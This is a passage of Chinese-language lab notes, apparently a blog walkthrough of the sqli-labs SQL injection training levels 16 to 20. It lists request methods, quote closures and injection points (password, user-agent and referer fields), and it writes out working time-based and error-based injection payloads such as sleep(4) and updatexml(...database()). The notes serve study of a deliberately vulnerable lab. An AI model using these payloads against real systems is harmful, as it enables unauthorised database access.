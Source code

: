     请求方式 post
    
    闭合方式 ")
    
    攻击测试 uname=admin") and sleep(4)#&passwd=&submit=Submit
    
    注入方式 延时
    
        

## less-17:

根据提示注入点是password，并且根据测试，username必须正确，错误才会进行回显。-
payload：

    and updatexml(0,concat(0x7e,database()),1)
    
        

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201217155129878.png)-
Less-18

    请求方式 post
    
    闭合方式 '
    
    注入方式 报错
    
    注入点 user-agent
    
        

payload：

    admin' and updatexml(1,concat(0x7e,database()),1) and '1'='1
    
        

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201217161308181.png)

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201217170509108.png)

## Less-19

    请求方式 post
    
    闭合方式 '
    
    注入方式 报错
    
    注入点 referer字段
    
        

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201217170545811.png)-
![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201217170555700.png)

## Less-20

    请求方式 post
    